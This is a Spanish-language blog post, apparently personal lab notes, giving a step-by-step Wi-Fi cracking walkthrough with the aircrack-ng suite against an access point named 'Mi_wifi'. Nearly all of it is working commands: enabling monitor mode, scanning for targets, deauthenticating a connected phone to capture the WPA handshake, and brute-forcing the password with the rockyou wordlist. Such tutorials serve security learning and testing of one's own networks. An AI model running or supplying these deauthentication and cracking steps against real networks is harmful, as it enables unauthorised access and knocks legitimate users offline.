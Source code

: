 ```yaml
---
layout: post
title: Hacking Wifi
date: 2024-04-06 12:24:23 
category: sample
vm: linux
---
```


### **1)** Vemos nuestra interfaz de red wifi
```
     iwconfig 
```
![iwconfig](/notas/public/img/hwifi/iwconfig.png)


### **2)** Le cambiamos el ESSID para no complicarnos
```
    sudo ip link set dev wlxb4b0240921e2 name wlan0

    iwconfig 
```
 ![essid](/notas/public/img/hwifi/essid_modify.png)

### **3)** Eliminamos procesos 'conflictivos'
```
    sudo airmon-ng check kill
```
![kill](/notas/public/img/hwifi/kill_process.png)



### **4)** Iniciamos el modo monitor
```
    sudo airmon-ng start wlan0
```
![start](/notas/public/img/hwifi/start_mode.png)

_> El nombre de nuestra interface puede variar, en este caso se mantiene._


### **5)** Escuchamos los Puntos de Acceso (AP)
```
    sudo airodump-ng wlan0
```
![listen](/notas/public/img/hwifi/listen_wifi.png)

- **Mi_wifi** _AP victima_
    - **FC:A6:21:D5:D8:17** - Mac
    - **11** - Canal 



### **6)** Vemos los dispositivos del AP objetivo
```
    sudo airodump-ng -c 11 --bssid FC:A6:21:D5:D8:17 -w save_prueba wlan0
```
![devices](/notas/public/img/hwifi/devices_wifi.png)

_En este caso hay un dispositivo movil conectado._

- **44:6D:6C:35:40:DB** - Mac del Dispositivo dentro del AP Mi_Wifi


### **7)** Desautenticamos al usuario del punto de acceso
```
    sudo aireplay-ng --deauth 5 -a FC:A6:21:D5:D8:17 -c 44:6D:6C:35:40:DB wlan0
```
![handshake](/notas/public/img/hwifi/handshake.png)

_Tenemos el handshake, donde viaja 'la contraseña cifrada'_

- Listamos el reporte:

```
    ls
```

![cap](/notas/public/img/hwifi/save_cap.png)


### **8)** Aplicamos fuerza bruta para obtener la contraseña
```
    sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b FC:A6:21:D5:D8:17 save_prueba-01.cap
```
![key](/notas/public/img/hwifi/key.png)

<br>

<span class="finish">_Finalizado._</span>
